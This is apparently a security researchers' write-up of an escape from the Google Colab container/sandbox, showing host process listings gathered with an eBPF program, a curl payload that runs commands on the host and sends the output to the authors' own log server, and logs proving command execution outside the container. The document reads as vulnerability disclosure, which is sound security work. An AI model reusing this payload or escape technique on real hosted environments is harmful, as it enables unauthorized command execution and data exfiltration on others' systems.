 **Colab Container/Sandbox Escape**

Authors:

**Roland@Tencent,**

**Yi He@Tsinghua University,**

# Colab environment analysis

After inspect the process informtaion in Colab, we can make sure Colab is booted by ```docker-init``` which is a typical container/sandbox.

![](./colab1.jpg)

On the other hand, we execute our host process information leak ebpf program, and found some processes are executed out of the sandbox/container:

```sh
kernel_manager_
containerd-shim
tunnelbackend_b
jupyter-noteboo
systemd-journal
colab-disk-grow
move-jupyter-ch
containerd
dockerd
node-problem-de
kernel_manag
nvidia-smi
dap_multiplexer
google_osconfig
containerd-shim
tunnelbackend_b
jupyter-noteboo
kernel_manager_
dockerd
systemd-journal
node-problem-de
dap_multiplexer
colab-disk-grow
google_osconfig
google_guest_ag
nvidia-smi
device_policy_m
journal-offline
systemd
sshd
bash
sha256sum
readlink
xargs
head
fgrep
systemd-network
systemd-logind
systemd-resolve
(h_sender)
crash_sender
dbus-daemon
check_boot_disk
df
systemd-udevd
chronyd
```

# Information Collection

After He developed a host process information collection and filter evil ebpf program, we are able to dive into the host process behaviors, the following things were brought to our attention：

![](./colab2.jpg)

The figure told us that in the host VM out of the Colab sandbox/container, it seems to have some bash and sshd behaviors which we think could be vulnerable and exploitable for us.

Then I quickly improved our evil ebpf programs, and adapted to these behaviors.

# Exploit

We upload our program and run in Colab, and change our payload to: 

```shell
curl -d uid="$(ps -ef | sed -n '2p')" {our_log_server_ip} #
```

the payload will get the process #1 and print log to our log server, after a few minutes, we received the log:

```sh
2022-07-14 09:31:09,388 record-server INFO Get User: [root 1 0 0 Jul13 ? 00:00:02 /usr/lib/systemd/systemd noresume noswap cros_efi] 

2022-07-14 10:11:46,394 record-server INFO Get User: [root 825 1 0 Jul13 ? 00:00:08 /usr/bin/dockerd --registry-mirror=https://mirror.gcr.io --host=fd:// --containerd=/var/run/containerd/containerd.sock] 
```

And we found that, the process#1 is ```/usr/lib/systemd/systemd``` which **is not runned** in the sandbox, also **dockerd**

```shell
!ls /usr/lib/systemd/systemd
ls: cannot access '/usr/lib/systemd/systemd': No such file or directory
```

```shell
!find / -name "dockerd"
find: ‘/proc/36/task/36/net’: Invalid argument
find: ‘/proc/36/net’: Invalid argument
```

```shell
!ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 Jul13 ?        00:00:01 /sbin/docker-init -- /datala
root           7       1  0 Jul13 ?        00:00:11 /tools/node/bin/node /datala
root          21       0  0 Jul13 ?        00:00:01 tail -n +0 -F /root/.config/
root          36       7  0 Jul13 ?        00:00:06 [python3] <defunct>
root          37       7  0 Jul13 ?        00:00:00 python3 /usr/local/bin/colab
root          50       7  0 Jul13 ?        00:00:12 /usr/bin/python3 /usr/local/
root          51       7  0 Jul13 ?        00:00:18 /usr/local/bin/dap_multiplex
root          67      50  0 Jul13 ?        00:01:35 /usr/bin/python3 -m ipykerne
root          87       1  0 Jul13 ?        00:00:30 /usr/bin/python3 /usr/local/
root         743       7  1 02:56 ?        00:01:02 node /datalab/web/pyright/py
root         822      67  0 04:26 ?        00:00:00 ps -ef
```

**Till now, we can make sure that we escaped from Colab sandbox/container, and gain the ability to Execute arbitrary commands out of the sandbox/container.** 


